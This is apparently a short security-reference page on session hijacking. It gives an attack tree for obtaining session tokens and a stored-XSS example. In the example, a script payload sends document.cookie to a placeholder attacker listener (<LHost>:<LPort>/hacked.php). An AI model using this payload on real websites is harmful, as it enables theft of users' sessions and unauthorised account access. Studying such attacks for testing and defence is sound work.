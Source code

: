# Hijack session

A web server needs a method to recognize every user’s connections. The most useful method depends on a token that the Web Server sends to the client browser after a successful client authentication. A session token is composed of a string of variable width and can be used in different ways, like in the URL, in the header of the http requisition as a cookie, in other parts of the header of the http request, or in the body of the http requisition.

## Attack tree

```text
1 Get valid token session (Session ID)
    1.1 Use a sniffer (OR)
    1.2 Use an XSS attack to steal the session token
        1.2.1 Stored XSS
            1.2.1 Discover stored XSS vulnerability on target site
            1.2.2 Discover JSESSIONID cookie
            1.2.3 Set up listener
            1.2.4 Send JSESSIONID cookie to listener from target site
    1.3 Use (Man in the Middle) MitM
    1.4 Use (Man in the Browser) MitB
2 Use the valid token session to gain unauthorised access to the web server 
```

## Examples

### Use Stored XSS attack

Discover session cookie (indicator of attack against user, and indicator of compromise of website)

```text
<script>alert(document.cookie)</script>
```

Exploit

```text
<script>new Image().src="<LHost>:<LPort>/hacked.php?output="+ document.cookie;</script>
```